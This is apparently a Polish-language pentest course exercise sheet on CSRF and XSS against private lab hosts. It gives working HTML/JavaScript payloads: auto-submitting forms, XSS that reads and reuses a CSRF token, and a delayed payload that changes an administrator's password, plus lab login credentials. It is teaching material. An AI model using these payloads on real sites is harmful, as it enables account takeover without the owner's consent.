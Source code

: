 ### POST CSRF
Celem zadania jest przygotowanie odpowiedniego payloadu na podstronie http://192.168.100.12/payload/, który zasymuluje kliknięcie przycisku przez administratora na stronie http://192.168.100.12/site2/.  
Przykład:  
`<form method="post" action="/site2/" id="f"><input type="hidden” name="solve"></form><script>document.getElementById('f').submit();</script>`  

### CSRF TOKEN
Celem zadania jest przygotowanie odpowiedniego payloadu na podstronie http://192.168.100.12/payload/, który za symuluje kliknięcie przycisku przez administratora na stronie http://192.168.100.12/site3/.  
Strona zabezpieczona jest tokenem CSRF, który należy odczytać za pomocą podatności XSS.  
Przykład:  
```
<form method="post" action="/site3/"><input type="hidden" name="solve"><input type="hidden"name="token"
 id="t"></form><script>document.forms[1].t.value=document.forms[0].token.value;document.forms[1].submit()</script>
```
Oneliner:  
`<form method="post" action="/site3/"><input type="hidden" name="solve"><input type="hidden"name="token" id="t"></form><script>document.forms[1].t.value=document.forms[0].token.value;document.forms[1].submit()</script>`  

## Ćwiczenia studia Pentest
### Zwykły użytkownik
Głównym celem zadania jest zalogowanie się na konto Administratora.  
Napoczątku jednak musimy zalogować się na konto zwykłego użytkownika:  
URL: http://192.168.100.62/  
Nazwa: student  
Hasło: pjatk  

Zwróć uwagę na token CSRF w formularzu! Jest on przypisany do sesji i uniemożliwia najgroźniejsze scenariusze CSRF.  

## XSS
Celem zadania jest znalezienie podatności XSS na podstronie:  
http://192.168.100.62/activity/  

Przykład użycie nieprawidłowego tokenu jest logowane:  
`http://192.168.100.62/activity/?clear=&token=<b>XS`

## CSRF
Celem zadania jest wykorzystanie podatności CSRF (za pośrednictwem XSS) do zmiany hasła Administratora.  
Podatność XSS umożliwia odczytanie tokenu CSRF na stronie i ominięcie zabezpieczenia!  
Atak należy opóźnić o około sekundę (funkcja setTimeout), aby strona – łącznie z tokenem CSRF– wczytała się do końca!  
Przykład:  
```
<form method="post" action="/profile/"><input type="hidden" name="password1" value="pjatk"><input 
type="hidden" name="password2" value="pjatk"><input type="hidden" name="token" 
id="t"></form><script>setTimeout('document.forms[0].t.value=document.forms[1].token.value;document.forms[0].submit()', 1000)</script>
```
Oneliner:  
`<form method="post" action="/profile/"><input type="hidden" name="password1" value="pjatk"><input type="hidden" name="password2" value="pjatk"><input type="hidden" name="token" id="t"></form><script>setTimeout('document.forms[0].t.value=document.forms[1].token.value;document.forms[0].submit()', 1000)</script>`
